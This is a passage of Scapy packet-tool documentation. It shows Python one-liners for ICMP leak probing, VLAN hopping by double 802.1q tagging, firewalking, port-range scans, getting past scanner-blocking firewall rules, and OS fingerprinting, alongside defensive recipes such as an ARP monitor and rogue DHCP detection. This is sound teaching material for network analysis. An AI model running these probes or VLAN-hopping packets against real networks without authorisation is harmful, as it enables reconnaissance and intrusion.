    <Padding load=’0O\x02\x01\x00\x04\x06public\xa2B\x02\x02\x1e’ |>>> 

ICMP leaking
------------ 

This was a Linux 2.0 bug:: 

    >>> sr1(IP(dst="172.16.1.1", options="\x02")/ICMP()) 
    <IP src=172.16.1.1 [...] |<ICMP code=0 type=12 [...] | 
    <IPerror src=172.16.1.24 options=’\x02\x00\x00\x00’ [...] | 
    <ICMPerror code=0 type=8 id=0x0 seq=0x0 chksum=0xf7ff | 
    <Padding load=’\x00[...]\x00\x1d.\x00V\x1f\xaf\xd9\xd4;\xca’ |>>>>> 


VLAN hopping 
------------

In very specific conditions, a double 802.1q encapsulation will 
make a packet jump to another VLAN::
 
    >>> sendp(Ether()/Dot1Q(vlan=2)/Dot1Q(vlan=7)/IP(dst=target)/ICMP()) 


Wireless sniffing
-----------------

The following command will display information similar to most wireless sniffers::

>>> sniff(iface="ath0",prn=lambda x:x.sprintf("{Dot11Beacon:%Dot11.addr3%\t%Dot11Beacon.info%\t%PrismHeader.channel%\t%Dot11Beacon.cap%}"))

The above command will produce output similar to the one below::

    00:00:00:01:02:03 netgear      6L   ESS+privacy+PBCC
    11:22:33:44:55:66 wireless_100 6L   short-slot+ESS+privacy
    44:55:66:00:11:22 linksys      6L   short-slot+ESS+privacy
    12:34:56:78:90:12 NETGEAR      6L   short-slot+ESS+privacy+short-preamble


Recipes 
=======

Simplistic ARP Monitor
----------------------

This program uses the ``sniff()`` callback (parameter prn). The store parameter is set to 0 so that the ``sniff()`` function will not store anything (as it would do otherwise) and thus can run forever. The filter parameter is used for better performances on high load : the filter is applied inside the kernel and Scapy will only see ARP traffic.

::

    #! /usr/bin/env python
    from scapy.all import *
    
    def arp_monitor_callback(pkt):
        if ARP in pkt and pkt[ARP].op in (1,2): #who-has or is-at
            return pkt.sprintf("%ARP.hwsrc% %ARP.psrc%")
    
    sniff(prn=arp_monitor_callback, filter="arp", store=0)

Identifying rogue DHCP servers on your LAN 
-------------------------------------------

.. index::
   single: DHCP

Problem
^^^^^^^

You suspect that someone has installed an additional, unauthorized DHCP server on your LAN -- either unintentionally or maliciously. 
Thus you want to check for any active DHCP servers and identify their IP and MAC addresses.  

Solution
^^^^^^^^

Use Scapy to send a DHCP discover request and analyze the replies::

    >>> conf.checkIPaddr = False
    >>> fam,hw = get_if_raw_hwaddr(conf.iface)
    >>> dhcp_discover = Ether(dst="ff:ff:ff:ff:ff:ff")/IP(src="0.0.0.0",dst="255.255.255.255")/UDP(sport=68,dport=67)/BOOTP(chaddr=hw)/DHCP(options=[("message-type","discover"),"end"])
    >>> ans, unans = srp(dhcp_discover, multi=True)      # Press CTRL-C after several seconds
    Begin emission:
    Finished to send 1 packets.
    .*...*..
    Received 8 packets, got 2 answers, remaining 0 packets

In this case we got 2 replies, so there were two active DHCP servers on the test network::

    >>> ans.summary()
    Ether / IP / UDP 0.0.0.0:bootpc > 255.255.255.255:bootps / BOOTP / DHCP ==> Ether / IP / UDP 192.168.1.1:bootps > 255.255.255.255:bootpc / BOOTP / DHCP
    Ether / IP / UDP 0.0.0.0:bootpc > 255.255.255.255:bootps / BOOTP / DHCP ==> Ether / IP / UDP 192.168.1.11:bootps > 255.255.255.255:bootpc / BOOTP / DHCP
    }}}
    We are only interested in the MAC and IP addresses of the replies: 
    {{{
    >>> for p in ans: print p[1][Ether].src, p[1][IP].src
    ...
    00:de:ad:be:ef:00 192.168.1.1
    00:11:11:22:22:33 192.168.1.11

Discussion
^^^^^^^^^^

We specify ``multi=True`` to make Scapy wait for more answer packets after the first response is received.
This is also the reason why we can't use the more convenient ``dhcp_request()`` function and have to construct the DCHP packet manually: ``dhcp_request()`` uses ``srp1()`` for sending and receiving and thus would immediately return after the first answer packet. 

Moreover, Scapy normally makes sure that replies come from the same IP address the stimulus was sent to. But our DHCP packet is sent to the IP broadcast address (255.255.255.255) and any answer packet will have the IP address of the replying DHCP server as its source IP address (e.g. 192.168.1.1). Because these IP addresses don't match, we have to disable Scapy's check with ``conf.checkIPaddr = False`` before sending the stimulus.  

See also
^^^^^^^^

http://en.wikipedia.org/wiki/Rogue_DHCP



Firewalking 
-----------

TTL decrementation after a filtering operation 
only not filtered packets generate an ICMP TTL exceeded 

    >>> ans, unans = sr(IP(dst="172.16.4.27", ttl=16)/TCP(dport=(1,1024))) 
    >>> for s,r in ans: 
            if r.haslayer(ICMP) and r.payload.type == 11: 
                print s.dport 

Find subnets on a multi-NIC firewall 
only his own NIC’s IP are reachable with this TTL:: 

    >>> ans, unans = sr(IP(dst="172.16.5/24", ttl=15)/TCP()) 
    >>> for i in unans: print i.dst


TCP Timestamp Filtering
------------------------

Problem
^^^^^^^

Many firewalls include a rule to drop TCP packets that do not have TCP Timestamp option set which is a common occurrence in popular port scanners.

Solution
^^^^^^^^

To allow Scapy to reach target destination additional options must be used::

    >>> sr1(IP(dst="72.14.207.99")/TCP(dport=80,flags="S",options=[('Timestamp',(0,0))]))



Viewing packets with Wireshark
------------------------------

.. index::
   single: wireshark()

Problem
^^^^^^^

You have generated or sniffed some packets with Scapy and want to view them with `Wireshark <http://www.wireshark.org>`_, because of its advanced packet dissection abilities.

Solution
^^^^^^^^

That's what the ``wireshark()`` function is for:

    >>> packets = Ether()/IP(dst=Net("google.com/30"))/ICMP()     # first generate some packets
    >>> wireshark(packets)                                        # show them with Wireshark

Wireshark will start in the background and show your packets.
 
Discussion
^^^^^^^^^^

The ``wireshark()`` function generates a temporary pcap-file containing your packets, starts Wireshark in the background and makes it read the file on startup.   

Please remember that Wireshark works with Layer 2 packets (usually called "frames"). So we had to add an ``Ether()`` header to our ICMP packets. Passing just IP packets (layer 3) to Wireshark will give strange results.

You can tell Scapy where to find the Wireshark executable by changing the ``conf.prog.wireshark`` configuration setting.



OS Fingerprinting
-----------------

ISN
^^^

Scapy can be used to analyze ISN (Initial Sequence Number) increments to possibly discover vulnerable systems. First we will collect target responses by sending a number of SYN probes in a loop::

    >>> ans, unans = srloop(IP(dst="192.168.1.1")/TCP(dport=80,flags="S"))

Once we obtain a reasonable number of responses we can start analyzing collected data with something like this:

    >>> temp = 0
    >>> for s, r in ans:
    ...    temp = r[TCP].seq - temp
    ...    print("%d\t+%d" % (r[TCP].seq, temp))
    ... 
    4278709328      +4275758673
    4279655607      +3896934
    4280642461      +4276745527
    4281648240      +4902713
    4282645099      +4277742386
    4283643696      +5901310

nmap_fp
^^^^^^^

Nmap fingerprinting (the old "1st generation" one that was done by Nmap up to v4.20) is supported in Scapy. In Scapy v2 you have to load an extension module first::

    >>> load_module("nmap")

If you have Nmap installed you can use it's active os fingerprinting database with Scapy. Make sure that version 1 of signature database is located in the path specified by::

    >>> conf.nmap_base

Then you can use the ``nmap_fp()`` function which implements same probes as in Nmap's OS Detection engine::

    >>> nmap_fp("192.168.1.1",oport=443,cport=1)
    Begin emission:
    .****..**Finished to send 8 packets.
    *................................................
    Received 58 packets, got 7 answers, remaining 1 packets
    (1.0, ['Linux 2.4.0 - 2.5.20', 'Linux 2.4.19 w/grsecurity patch', 
    'Linux 2.4.20 - 2.4.22 w/grsecurity.org patch', 'Linux 2.4.22-ck2 (x86)
    w/grsecurity.org and HZ=1000 patches', 'Linux 2.4.7 - 2.6.11'])

p0f
^^^

If you have p0f installed on your system, you can use it to guess OS name and version right from Scapy (only SYN database is used). First make sure that p0f database exists in the path specified by::

    >>> conf.p0f_base

For example to guess OS from a single captured packet:

    >>> sniff(prn=prnp0f)
    192.168.1.100:54716 - Linux 2.6 (newer, 1) (up: 24 hrs)
      -> 74.125.19.104:www (distance 0)
    <Sniffed: TCP:339 UDP:2 ICMP:0 Other:156>



